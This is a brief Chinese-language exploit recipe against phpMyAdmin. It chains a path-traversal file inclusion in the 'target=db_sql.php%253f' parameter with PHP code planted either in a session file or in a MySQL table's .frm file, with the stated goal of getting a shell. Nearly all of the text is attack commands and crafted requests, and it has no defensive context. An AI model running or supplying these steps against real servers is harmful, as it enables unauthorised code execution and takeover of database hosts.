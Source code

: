 ## 本地session包含
1. root登录，执行 `select '<?php phpinfo();exit;?>'`
2. 找到phpmyadmin cookie，`/index.php?target=db_sql.php%253f/../../var/lib/php/sessions/<you cookie>`

## 写入sql文件getishell
1. test数据库下新建表，字段名`<?php phpinfo()?>`
2. 查看sql文件路径`show variables like '%datadir%'`
3. getshll `/index.php?target=db_sql.php%253f/../../var/lib/mysql/test/hy.frm`